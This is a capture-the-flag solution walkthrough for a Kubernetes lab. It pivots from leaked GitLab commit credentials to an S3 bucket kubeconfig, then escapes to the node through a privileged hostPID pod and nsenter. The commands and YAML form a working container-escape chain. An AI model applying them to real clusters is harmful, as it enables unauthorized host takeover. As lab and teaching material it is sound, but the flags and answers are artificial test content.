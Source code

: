 # Solution

## Part 1 - Pivot out of GitLab

- Access <gitlab.foobar.com>
  - Use credentials:
    - u: `root`
    - p: `Ikn0wwh@ty0ud1dl@5tKub3C0n3`
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi>
  - Review README
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commits/main>
  - Review the git commit messages
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commit/f0e9ad8ac74a428da5c2a4835a633a7bac6b1193>
  - Review for file that has been added by mistake

## Part 1 - Flag

- FLAG(IckyThumb)

## Part 2 - Get config from Bucket

- Use `aws` to copy file the `config` file from bucket

```sh
aws configure set aws_access_key_id "uUcDGYowgomWC8Z5"
aws configure set aws_secret_access_key "FLAG(IckyThumb)"
aws configure set default.region "us-east-1"
aws configure set default.output "json"
aws --endpoint-url=http://bucket.foobar.com:4566 s3 cp s3://foobar-creds/config ./config
```

> NOTE: if <bucket.foobar.com> hasn't been added to the `/etc/hosts` file, then use this:

```sh
aws --endpoint-url=http://localhost:4566 s3 cp s3://foobar-creds/config ./config
```

- Use the config file to connect to the cluster:

```sh
kubectl --kubeconfig=config auth can-i --list
```

## Part 3 - The Homer

Connect to GKE cluster:

Modify the pod spec and include the "hostPID", "hostNetwork", "privileged" flags and set it to true:

```bash
cat car-the-privileged-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: car-the-privileged-pod
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: car-the-privileged-pod
    image: nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

Apply it:

```bash
kubectl apply -f car-the-privileged-pod.yaml
pod/car-the-privileged-pod created
```

Exec into pod:

```bash
kubectl exec -it car-the-privileged-pod -- /bin/bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/#
```

Enter into all the namespaces:

```bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/# nsenter -t 1 -m -u -n -i -p bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / #
```

Find the flag:

```bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / # find .  -name "*flag*" -print
./home/car_capital/f0rd_flag.png
```

The file is `./home/car_capital/f0rd_flag.png`

Get the content:

```bash
cat ./home/car_capital/f0rd_flag.png

aHR0cHM6Ly9kcml2ZS5nb29nbGUuY29tL2ZpbGUvZC8xTi12Nms0YVNpNnFvMXgyY3BJS1IwbjVW
R0dXMFh4a1Qvdmlldw==
```

Decode it from base64:

```bash
base64 -d /home/car_capital/f0rd_flag.png

https://drive.google.com/file/d/1N-v6k4aSi6qo1x2cpIKR0n5VGGW0XxkT/view
```

Open the link, get the car picture :)
